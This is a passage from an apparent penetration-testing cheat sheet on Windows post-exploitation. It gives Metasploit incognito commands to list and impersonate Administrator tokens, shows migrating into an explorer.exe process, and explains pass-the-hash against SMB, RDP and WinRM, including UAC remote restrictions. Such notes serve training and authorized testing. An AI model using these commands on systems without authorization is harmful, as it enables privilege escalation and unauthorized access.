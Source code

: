 ```sh
# Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
```

---

## Impersonate Tokens

**Metasploit - incognito**

```sh
load incognito
list_tokens -u
```

```sh
 Delegation Tokens Available
 ========================================
 ANYTHING\Administrator
 NT AUTHORITY\LOCAL SERVICE
 
 Impersonation Tokens Available
 ========================================
 No tokens available
```

```sh
impersonate_token <token_name>
# E.g. impersonate_token ANYTHING\\Administrator 
# Note: the two backslashes
```

```sh
# You may need to migrate process to a <user> process
getpid
ps     
# PID: 2948 | PPID: 2036 NAME: explorer.exe | ARCH: X64 | SESSION:1 | USER: ANYTHING\Administrator | PATH: C:\Windows\explorer.exe

# Migrate process
migrate 2948
```

---

## Authentication Attacks

### Pass the Hash

Pass-the-Hash is a technique where you authenticate as a user without knowing the plaintext password. Instead, you can use the NTLM hash of the password to gain access to systems and resources. This attack works with network protocols that use NTLM authentication, such as **SMB**, **RDP**, and **WinRM**.

> **Note**: **UAC Remote Restrictions**
>
> By default, User Account Control (UAC) prevents local administrator accounts from performing remote administration tasks.
>
> * Bypass: The built-in **Administrator** account (SID ending in -500) is immune to this restriction.
> * Blocked: Any other user in the Administrators group will have their token filtered, and the hash-passing will fail unless UAC remote restrictions are disabled on the target.
